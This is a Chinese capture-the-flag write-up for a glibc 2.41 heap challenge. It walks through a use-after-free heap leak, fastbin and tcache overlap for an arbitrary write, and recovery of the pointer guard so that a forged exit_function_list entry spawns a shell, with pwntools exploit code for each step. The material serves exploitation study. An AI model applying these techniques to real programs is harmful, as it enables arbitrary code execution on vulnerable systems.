



# IONOSTREAM

## 题目简述

题目是 glibc 2.41 环境下的菜单堆题，程序存在明显 UAF。通过释放后查看可以泄露 tcache 指针，从而恢复 `heap_base`；再利用 tcache safe-linking 规则、fastbin dup 和堆重叠构造任意地址写。glibc 2.41 下常规 hook 已不可用，题解选择劫持退出流程中的 `exit_function_list`，伪造 `ef_cxa` 条目调用 `system("/bin/sh")`。

这题的关键难点是 pointer guard：`exit_function` 中保存的函数指针不是明文，需要恢复 `fs` 中的 guard 后按 glibc 规则重新加密 `system` 地址。

## 解题过程

先利用 UAF 泄露 tcache safe-linking 指针。由于 tcache 链表指针是 `ptr ^ (chunk_addr >> 12)`，泄露值左移 12 位即可得到堆基址附近的地址：

```python
add(0, 0x58, b"aaaaaaaa")
dele(0)
show(0)
p.recv()
tcache_leak = u64(p.recv(8))
heap_base = tcache_leak << 12
```

然后通过 fastbin dup 和 tcache reverse into fastbin 构造重叠 chunk。目标是让一个已分配 chunk 覆盖另一个 chunk 的 size，把它改成 unsorted bin 大小，再释放泄露 libc：

```python
dele(10)
show(10)
p.recv()
unsort_leak = u64(p.recv(8))
libc_base = unsort_leak - 0x210b20
```

后续攻击面选在 `__run_exit_handlers`。退出时 glibc 会遍历 `exit_function_list`，其中 `ef_cxa` 形态大致如下：



```c
struct exit_function_list {
    struct exit_function_list *next;
    size_t idx;
    struct exit_function fns[32];
};

struct exit_function {
    long int flavor;                 // ef_cxa 为 4
    void (*fn)(void *arg, int status);
    void *arg;
    void *dso_handle;
};
```



但 `fn` 字段受 pointer guard 保护。通过任意地址读写把目标转到 `rtld_global`、`initial` 等位置，泄露已加密的 `dl_fini` 指针，再反推出 guard：



```python
def ROR(val, n, bits=64):
    return ((val >> n) | (val << (bits - n))) & ((1 << bits) - 1)

def ROL(val, n, bits=64):
    return ((val << n) | (val >> (bits - n))) & ((1 << bits) - 1)

encry_addr = u64(p.recv(8))
dl_fini_addr = ld_base + 0x5160
pointer_guard = ROR(encry_addr, 0x11) ^ dl_fini_addr
encry_system = ROL(system ^ pointer_guard, 0x11)
```

最后伪造一个 `exit_function_list`，令 `idx = 1`，第一个函数条目为 `ef_cxa`，函数指针填加密后的 `system`，参数填 `/bin/sh`：

```python
system = libc_base + libc.sym["system"]
binsh = libc_base + next(libc.search(b"/bin/sh\x00"))

edit(9, p64(0) + p64(1) + p64(4) + p64(encry_system) + p64(binsh))
p.interactive()
```

触发程序退出后，`__run_exit_handlers` 调用伪造的 `ef_cxa` 条目，完成 shell。

## 方法总结

- 核心技巧：UAF 泄露堆基址，fastbin/tcache 构造任意写，恢复 pointer guard 后劫持 `exit_function_list`。
- 识别信号：高版本 glibc、无传统 hook、存在任意写时，退出处理链和 pointer guard 是重要攻击面。
- 复用要点：写 `exit_function` 时不要直接填明文函数地址，必须按 `ROL(fn ^ guard, 0x11)` 形式加密。
